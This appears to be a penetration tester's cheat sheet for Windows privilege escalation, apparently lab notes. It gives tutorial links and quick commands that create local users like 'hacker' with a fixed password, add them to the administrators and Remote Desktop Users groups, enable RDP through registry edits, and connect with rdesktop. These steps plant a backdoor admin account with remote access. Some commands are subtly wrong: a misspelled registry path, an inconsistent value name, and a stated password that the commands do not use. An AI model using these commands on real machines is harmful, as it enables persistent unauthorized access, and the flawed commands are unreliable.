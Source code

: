 http://www.fuzzysecurity.com/tutorials/16.html

https://www.youtube.com/watch?v=kMG8IsCohHA

https://www.youtube.com/watch?v=PC_iMqiuIRQ

https://github.com/GDSSecurity/Windows-Exploit-Suggester     

http://hackingandsecurity.blogspot.ca/2017/09/oscp-windows-priviledge-escalation.html

https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/

## Quick Commands

#### Windows add user

net user hacker Passw0rd123! /add

net user joe Passw0rd123! /add

#### Create a new local (to the victim) user called ‘hacker’ with the password of ‘hacker’

net localgroup administrators /add hacker

Or

net localgroup administrators hacker /add

net localgroup administrators joe /add

#### add user to remote desktop users

NET LOCALGROUP "Remote Desktop Users" hacker /ADD

#### delete users

net user hacker /delete


### rdesktop

rdesktop -u hacker -p Passw0rd123! 10.11.1.31

rdesktop -u hacker -p Passw0rd123! 10.11.1.49


#### allow RDP from command line

http://www.hacking-tutorial.com/tips-and-trick/how-to-enable-remote-desktop-using-command-prompt/

reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f 

Reg add “\\bethany\HKLM\SYSTEM\CurentControlSet\Control\Terminal Server”  /v fDenyTSConnections /t REG_DWORD /d 0 /f

NET LOCALGROUP "Remote Desktop Users" domain\jscott /ADD This would add the domain 

user domian\jscott to the local group Remote Desktop Users. If you'd like to add a non-domain user, simply leave off the domain 
